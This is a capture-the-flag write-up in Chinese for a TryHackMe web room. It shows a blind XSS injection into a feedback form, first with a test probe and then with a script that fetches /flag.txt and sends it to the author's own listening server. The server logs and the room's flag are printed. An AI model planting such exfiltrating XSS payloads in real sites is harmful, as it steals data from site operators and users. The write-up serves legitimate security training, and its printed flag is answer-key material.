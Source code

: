 # The Sticker Shop

[room url](https://tryhackme.com/r/room/thestickershop)

## Check out the site's features

靶機就是一個網站，有一個填寫 feedback 的功能

![](img/1.png)
![](img/2.png)

題目敘述中提到：They decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback.  
代表這個站台是有連出去的功能的，網頁功能也不多，所以先來試試看 XSS 會不會成功。這邊有測試過 feedback 功能，輸入的文字是不會顯示於網站的任何地方的，所以應該是屬於 Blind XSS 的攻擊方式。

## Blind XSS test

為了要測試是否可以透過 Blind XSS 連出去，先在 Kali 上起一個 server 讓目標有地方連。

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server                                 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

接著在 feedback 的地方嘗試輸入以下 script 驗證是否會連線至我們起的 server

```javascript
<script>
    fetch('http://10.17.1.65:8000/')
</script>
```

回到 python server 的 log 查看，的確有連過來，代表這邊是可以進行 blind XSS 的。

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server                                 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.152 - - [08/Dec/2024 04:05:57] "GET / HTTP/1.1" 200 -
```

## Use Blind XSS to trigger a callback to the host and retrieve the flag

現在只要寫一個 script 會讓目標把 flag.txt 的資料一起帶過來就可以了

```javascript
<script>
fetch("/flag.txt", {method:'GET', mode:'no-cors'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.17.1.65:8000/' + text); 
  });
</script>
```

回去 python server log 就可以拿到 flag 了

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.152 - - [08/Dec/2024 04:22:05] code 404, message File not found
10.10.11.152 - - [08/Dec/2024 04:22:05] "GET /THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 404 -
```